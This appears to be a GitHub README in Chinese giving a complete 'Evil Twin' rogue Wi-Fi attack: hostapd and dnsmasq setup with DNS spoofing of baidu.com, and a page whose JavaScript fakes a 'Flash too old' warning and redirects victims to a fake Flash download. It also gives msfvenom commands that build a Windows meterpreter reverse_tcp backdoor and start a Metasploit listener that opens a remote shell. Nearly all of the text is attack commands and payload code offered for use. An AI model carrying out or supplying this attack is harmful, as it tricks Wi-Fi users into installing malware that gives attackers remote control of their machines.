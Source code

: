 # Evil_Twin

安装:
apt install hostapd

apt install dnsmasq

//配置网卡规则
iptables --table nat --append POSTROUTING --out-interface wlan0 -j MASQUERADE   
iptables --append FORWARD --in-interface wlan1mon -j ACCEPT  
//设置网关IP以及子网掩码
ifconfig wlan1mon up 192.168.1.1 netmask 255.255.255.0
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1
//开启流量转发
echo 1 > /proc/sys/net/ipv4/ip_forward

dnsmasq.conf
interface=wlan1mon
dhcp-range=192.168.1.2, 192.168.1.30, 255.255.255.0, 12h
dhcp-option=3, 192.168.1.1
dhcp-option=6, 192.168.1.1
server=8.8.8.8
address=/baidu.com/192.168.1.1
log-queries
log-dhcp
listen-address=127.0.0.1

hostapd.conf:
interface=wlan1mon
driver=nl80211
ssid=freewifi
hw_mode=g
channel=6
macaddr_acl=0
ignore_broadcast_ssid=0

index.html:
<head>
<meta charset='utf-8'>
<script src="http://192.168.1.1/new.js"> </script>
</head>

new.js:
window.alert = function(name){
    var iframe = document. createElement("IFRAME");
    iframe.style.display="none";
    iframe.setAttribute("src",'data:text/plain,');
    document. documentElement.appendChild(iframe);
    window.frames [0].window.alert(name);
    iframe.parentNode.removeChild(iframe);
    }
    alert( "您的FLASH版本过低，尝试升级后访问该页面! ");
    window. location.href="http://192.168.1.1/flash";


下载flash模板
git clone https://github.com/r00tSe7en/Fake-flash.cn


生成后门:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f exe -o /root/awa.exe

service apache2 start //启动web服务器
hostapd hostapd.conf //创建wifi
dnsmasq -C dnsmasq.conf -d //dns服务
python3 -m http.server 8080 //后门下载

msfconsole //启动
use exploit/multi/handler    //使用监听
set payload windows/x64/meterpreter/reverse_tcp   //设置payload
set lhost 192.168.1.1 //设置IP
set lport 4444  //设置端口
run //启动


iptables出现问题解决方法:https://zhuanlan.zhihu.com/p/118632728
